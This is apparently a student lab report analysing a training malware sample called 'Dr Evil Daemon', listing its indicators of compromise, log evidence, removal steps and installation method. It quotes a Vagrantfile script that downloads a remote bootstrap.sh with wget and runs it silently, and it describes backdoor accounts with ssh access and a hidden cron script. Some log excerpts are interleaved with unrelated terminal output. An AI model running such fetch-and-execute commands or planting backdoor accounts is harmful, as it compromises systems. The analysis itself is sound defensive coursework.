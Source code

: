 # I. Malware Name
Dr Evil Daemon
# II. Indicators of Compromise *(8 points)*
## Modified system files
- `/etc/passwd`
- `/etc/shadow`
- `/etc/group`

Scott's files  
- `/etc/crontab`

## Files created
- `/etc/init.d/evil`
- `/usr/local/games/dr_evil/dr_evil.py`
- `/usr/local/games/evil.init`
- `/usr/local/games/evil.log`
- `/var/www/evil.log -> /usr/local/games/dr_evil/evil.log`

Scott's files  

- `/etc/.volcano_lair/who.data`
- `/etc/.volcano_lair/README.txt`
- `/etc/.volcano_lair/scott_evil.sh`


## Sample syslog and auth.log evidence

```
May  4 11:47:49 precise64 groupadd[2140]: group added to /etc/group: name=evil, GID=1003                                                │    I230_Lab6_VM: prevent things such as shared folders from working properly. If you see                                             
May  4 11:47:49 precise64 groupadd[2140]: group added to /etc/gshadow: name=evil                                                        │    I230_Lab6_VM: shared folder errors, please make sure the guest additions within the                                               
May  4 11:47:49 precise64 groupadd[2140]: new group: name=evil, GID=1003                                                                │    I230_Lab6_VM: virtual machine match the version of VirtualBox you have installed on                                               
May  4 11:47:49 precise64 gpasswd[2145]: user vagrant added by root to group evil                                                       │    I230_Lab6_VM: your host and reload your VM.
May  4 11:47:49 precise64 useradd[2150]: new user: name=drevil, UID=109, GID=1003, home=/usr/local/games/dr_evil, shell=/bin/bash       │    I230_Lab6_VM:
May  4 11:47:49 precise64 usermod[2155]: change user 'drevil' password                                                                  │    I230_Lab6_VM: Guest Additions Version: 4.3.36
May  4 11:47:49 precise64 chage[2160]: changed password expiry for drevil                                                               │    I230_Lab6_VM: VirtualBox Version: 5.2
May  4 11:47:49 precise64 gpasswd[2164]: user drevil added by root to group admin                                                       │==> I230_Lab6_VM: Configuring and enabling network interfaces...
May  4 11:49:49 precise64 useradd[2404]: add 'henchman1' to group 'evil'                                                                │==> I230_Lab6_VM: Mounting shared folders...
May  4 11:49:49 precise64 useradd[2404]: add 'henchman1' to shadow group 'evil'                                                         │    I230_Lab6_VM: /vagrant => /Users/seiffert/devops/I230Labs/lab6
May  4 11:51:50 precise64 useradd[2416]: add 'henchman2' to group 'evil'                                                                │==> I230_Lab6_VM: Machine already provisioned. Run `vagrant provision` or use the `--provision`                                       
May  4 11:51:50 precise64 useradd[2416]: add 'henchman2' to shadow group 'evil'                                                         │==> I230_Lab6_VM: flag to force provisioning. Provisioners marked to run always will still run.                                       
May  4 11:55:51 precise64 useradd[2624]: add 'henchman3' to group 'evil'                                                                │seiffert@Intrepid-5520:lab6$ vagrant halt
May  4 11:55:51 precise64 useradd[2624]: add 'henchman3' to shadow group 'evil'                                                         │==> I230_Lab6_VM: Attempting graceful shutdown of VM...
May  4 12:01:51 precise64 useradd[2802]: add 'henchman4' to group 'evil'                                                                │seiffert@Intrepid-5520:lab6$ vagrant --version
May  4 12:01:51 precise64 useradd[2802]: add 'henchman4' to shadow group 'evil'   
```

In the ossec logs:

```
Integrity checksum changed for: '/etc/passwd'
```


Scott's files  

```
May  4 12:22:01 precise64 CRON[2940]: (root) CMD (/etc/.volcano_lair/scott_evil.sh)                                                     │
May  4 12:24:01 precise64 CRON[2951]: (root) CMD (/etc/.volcano_lair/scott_evil.sh)
```

## Network indicators and URL's
- `http://<host>/evil.log`
- `https://www.dropbox.com/s/gxr252hld7a8xa7/bootstrap.sh?dl=0`

# III. Malware Analysis *(8 points)*
## How does the malware work?
Installs itself as a daemon launched via /etc/init.d/evil.  
Daemon periodically creates a henchman account with ssh access. 
## Where does it install itself?
/usr/local/games/dr_evil
## What is it's objective
install backdoors and log all the activity it is doing.


# IV. Remedial Actions *(4 points)*
## What steps to remove malware
Remove all files from 

- `/usr/local/games/dr_evil`
- `/etc/init.d/evil`
- `/var/www/evil.log`

Remove henchmen accounts and group created. 

Scott's files:

- Remove `/etc/.volcano_lair`
- Remove entry from `/etc/crontab`

# V. Installation *(5 points)*
## What lines in Vagrantfile kick off installation

```
# Setup a variable for the shell inline script to download bootstrap.sh script.                                                       
May  4 12:01:51 precise64 useradd[2802]: add 'henchman4' to shadow group 'evil'                                                         │$script = <<SCRIPT
vagrant@precise64:/var/log$ less /etc/apache2/httpd.conf                                                                                │cd /tmp
vagrant@precise64:/var/log$ ls /etc/apache2/sites-enabled/                                                                              │wget https://www.dropbox.com/s/gxr252hld7a8xa7/bootstrap.sh?dl=0 -Obootstrap.sh > /dev/null 2>&1                                      
000-default                                                                                                                             │chmod u+x bootstrap.sh
vagrant@precise64:/var/log$ ls -l /var/www/                                                                                             │/tmp/bootstrap.sh > /dev/null 2>&1
alerts.log  evil.log    index.html                                                                                                      │SCRIPT
```

## What script deploys malware
- `/tmp/bootstrap.sh`
- `/tmp/vagrant-shell`

## What files are used for deployment
- `/tmp/drevil.tgz`
- `/tmp/volcano.tgz`

## Where did the files come from?
Dropbox folder

